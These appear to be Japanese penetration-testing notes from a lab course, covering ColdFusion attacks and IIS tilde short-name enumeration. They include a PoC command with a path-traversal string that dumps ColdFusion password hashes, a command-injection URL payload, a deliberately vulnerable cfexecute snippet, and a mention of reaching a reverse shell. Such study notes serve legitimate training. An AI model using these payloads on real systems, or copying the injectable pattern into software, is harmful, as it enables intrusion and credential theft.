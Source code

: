 CVEのPoCの実行方法
```
snowyowl644@htb[/htb]$ python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"

------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
...
```

### Unauthenticated RCE
以下のようなコードで、RCEが発生することが多い
- cmd 変数にクエリ文字列の内容が代入され、その内容が cfexecute タグで Windows の cmd.exe を通じて実行される
- 認証も入力検証もないため、攻撃者が任意のコマンドを URL に含めるだけで、サーバー側でそのコマンドが実行されてしまう
```html
<cfset cmd = "#cgi.query_string#">
<cfexecute name="cmd.exe" arguments="/c #cmd#" timeout="5">
```

以下のように、エンコードして実行する
- ;（セミコロン）を使って、正規の処理の後に追加で任意のコマンドを実行する
- echo コマンドによりテキストファイルが作成され、サーバーが侵害されたことを証明するファイルが C:\ に出力される
```http
# Decoded: http://www.example.com/index.cfm?; echo "This server has been compromised!" > C:\compromise.txt

http://www.example.com/index.cfm?%3B%20echo%20%22This%20server%20has%20been%20compromised%21%22%20%3E%20C%3A%5Ccompromise.txt
```

有名なColdFusionのUnAuthenticated RCE
- CVE-2009-2265
- PoCのPythonを調整する必要がある
- リバースシェルで取得できる


# IIS
IIS : Internet Information Services
- 隠されたファイルやディレクトリ、8.3形式の短縮ファイル名（ショートネーム） を特定するために使われる技術

8.3形式のファイル名とは
- Windows では、ファイルやフォルダが作成されると、自動的に 8文字のファイル名 + ピリオド + 3文字の拡張子 という形式の「短縮名（8.3形式）」が割り当てられる
- この短縮名は本来のファイル名とは異なる形式ですが、**一部の状況では、短縮名を使ってファイルやフォルダにアクセス可能になってしまう**ことがある
## IIS チルダ(~)列挙
- 短縮ファイル名では、チルダ（~）と数字を使って、短縮表現を行う（例：secret~1）。
- そのため、攻撃者が短縮ファイル名を予測できれば、チルダ付きのパスで直接アクセスすることが可能
- この列挙は、URL に様々な文字列を付加して **HTTP リクエスト**を送り、サーバーからのレスポンス（ステータスコード）によって**存在するディレクトリやファイルの短縮名を推測する**という手法

